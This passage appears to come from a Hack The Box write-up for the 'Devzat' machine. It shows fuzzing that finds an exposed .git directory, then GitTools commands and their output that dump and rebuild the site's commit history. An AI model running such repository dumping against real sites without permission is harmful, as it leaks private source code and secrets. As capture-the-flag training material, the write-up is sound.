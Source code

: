 ```python
.git                    [Status: 301, Size: 41, Words: 3, Lines: 3]
:: Progress: [43003/43003] :: Job [1/1] :: 252 req/sec :: Duration: [0:02:50] :: Errors: 0 ::
```

We got ‘.git’ directory, let’s dump and extract the commits.

```python
⛩\> ~/tools/GitTools/Dumper/gitdumper.sh http://pets.devzat.htb/.git/ pets
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating pets/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash

-------SNIP-------
```

```python
⛩\> ~/tools/GitTools/Extractor/extractor.sh . pets
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 464614f32483e1fde60ee53f5d3b4d468d80ff62
[+] Found file: /home/kali/htb/machines/devzat/pets/pets/0-464614f32483e1fde60ee53f5d3b4d468d80ff62/.gitignore
[+] Found folder: /home/kali/htb/machines/devzat/pets/pets/0-464614f32483e1fde60ee53f5d3b4d468d80ff62/characteristics
[+] Found file: /home/kali/htb/machines/devzat/pets/pets/0-464614f32483e1fde60ee53f5d3b4d468d80ff62/characteristics/bluewhale

-------SNIP-------
```
